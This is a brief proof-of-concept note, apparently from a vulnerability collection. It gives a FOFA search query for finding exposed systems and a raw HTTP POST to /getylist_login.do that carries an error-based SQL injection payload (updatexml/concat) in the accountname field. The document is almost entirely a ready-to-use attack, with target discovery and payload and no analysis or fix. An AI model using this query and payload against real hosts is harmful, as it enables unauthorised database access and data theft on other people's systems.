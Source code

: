 # fofa
```plain
body="checkMacWaitingSecond"
```

# payload
```
POST /getylist_login.do HTTP/1.1
Host: 127.0.0.1
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.116 Safari/537.36
Content-Length: 0
 
accountname=test' and (updatexml(1,concat(0x7e,(select md5(123456)),0x7e),1));--

```

![图片](https://github.com/user-attachments/assets/12aaf024-bf74-4bac-bd71-f5538c3ebb73)
